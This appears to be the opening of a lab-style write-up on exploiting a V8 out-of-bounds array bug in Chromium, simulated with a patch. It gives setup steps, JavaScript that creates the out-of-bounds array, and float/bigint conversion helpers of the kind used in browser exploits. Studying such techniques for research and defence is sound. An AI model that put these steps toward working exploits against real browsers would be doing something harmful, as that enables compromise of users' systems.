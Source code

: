 # V8 OOB Exploitation (Chromium < 122.0.6261.57, V8 < 12.2.170)

## Setup

- Ubuntu 22.04.5 LTS (WSL)
- [8cf17a14a78cc1276eb42e1b4bb699f705675530](https://chromium.googlesource.com/v8/v8/+/8cf17a14a78cc1276eb42e1b4bb699f705675530) (2024.01.04.)

[oob.diff](./oob.diff)는 out of bounds 버그가 발생한 상황을 simulate하기 위해 array의 length를 임의로 더 크게 설정해도 array가 확장되지 않도록 하고, [dcheck.diff](./dcheck.diff)는 debug build에서 exploit을 진행할 때 crash가 발생하지 않도록 debug check를 제거한다.

[setup.sh](./setup.sh)

## Exploitation

### Generate OOB array

```js
// flags: --allow-natives-syntax --shell

let oob_arr = [1.1];

// generate oob array
oob_arr.length = 0x1000;
console.log(`[+] oob_arr.length == ${oob_arr.length}`);

% DebugPrint(oob_arr);
```

![image](https://github.com/user-attachments/assets/313d5540-4186-4885-b051-834155f5b64f)

![image](https://github.com/user-attachments/assets/3215234d-82ad-4b7e-8088-e0e1cd55f4ba)

![image](https://github.com/user-attachments/assets/a11a6667-db6e-46ce-b5ff-3fd096b4bc9a)

### Helper functions

```js
let fi_buf = new ArrayBuffer(8); // shared buffer for float and bigint
let f_buf = new Float64Array(fi_buf); // buffer for float
let i_buf = new BigUint64Array(fi_buf); // buffer for bigint

// convert float to bigint
function ftoi(f) {
    f_buf[0] = f;
    return i_buf[0];
}

// convert bigint to float
function itof(i) {
    i_buf[0] = i;
    return f_buf[0];
}

// convert (big)int to hex string
function hex(i) {
    return `0x${i.toString(16)}`;
}
```
